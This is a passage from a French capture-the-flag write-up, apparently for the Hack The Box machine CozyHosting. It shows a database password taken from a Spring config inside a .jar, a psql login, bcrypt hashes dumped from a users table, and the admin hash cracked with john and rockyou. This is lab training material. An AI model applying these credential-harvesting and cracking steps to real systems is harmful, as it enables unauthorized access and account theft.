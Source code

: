 ### python -m http.server 4444
On trouve sur la machine un fichier **.jar** intéressant.

### PSQL bdd credentials
Voici les infos qu'on a pu trouver dans un fichier présent dans le jar.
```bash
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

On a essayé de se connecter grâce à ces infos et ça a fonctionné !
```bash
app@cozyhosting:/app$ psql -U postgres -h localhost -p 5432 -d cozyhosting
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

cozyhosting=# 
```

### Users table : hashes
On fouillant dans la base on a trouvé la table users, avec des hashs de mots de passe.
```bash
cozyhosting=# \dt
cozyhosting=# select * from users;

-----------------------------------------

 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

### john: Cracking admin password
On a ensuite réussi a cracker le hash du mot de passe de l'utilisateur admin :
```bash
┌──(kali㉿kali)-[~/Hacking/HackTheBox/Machines/CozyHosting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt admin_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:34 DONE (2023-12-29 19:57) 0.02868g/s 80.55p/s 80.55c/s 80.55C/s dougie..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Il s'agit donc de **manchesterunited**.
